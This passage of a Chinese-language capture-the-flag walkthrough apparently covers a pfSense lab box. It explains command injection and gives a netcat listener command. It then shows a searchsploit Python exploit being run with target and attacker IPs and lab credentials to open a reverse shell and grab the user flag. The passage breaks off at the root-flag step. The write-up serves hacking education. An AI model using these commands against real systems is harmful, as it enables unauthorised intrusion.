 searchsploit result

既然我们知道这个版本容易受到**命令注入**攻击，让我们试着利用它。

命令注入是一个 web 安全漏洞，允许攻击者在应用程序服务器上执行任意操作系统命令，最终危及应用程序及其数据。当未经整理的用户输入通过应用程序传递时，就会发生这种情况。

Searchsploit 为我们提供了一个 Python 漏洞，所以让我们来试试吧。

在利用这个漏洞之前，我们需要设置一个 **Netcat** 监听器。

Netcat 是一个网络实用程序，监听器是它的特性之一。监听器允许您监听打开的端口，创建反向外壳，并通过网络发送数据或文件。

```
nc -lnvp 9001
```

接下来，我们通过运行以下命令来利用漏洞:

```
python3 43560.py --rhost 10.10.10.60 --lhost 10.10.14.12 --lport 9001 --username rohit --password pfsense
```

嘣！我们找到一个弹壳:

![shell](img/c342a1233fb9f7f501747a4c681c2ee0.png)

shell

## 步骤 6–找到用户标志

我们的 shell 不是一个 [PTY](https://man7.org/linux/man-pages/man7/pty.7.html) shell，这意味着有些特定的命令我们不能运行。然而，让我们看看我们是否能用我们当前的外壳抓取任何标志。

让我们转到 **rohit** 目录，看看我们能找到什么。

![user](img/2753532e8fa525915c7176269518c03e.png)

user flag

我们得到了我们的用户标志！

## 步骤 7–找到根标志
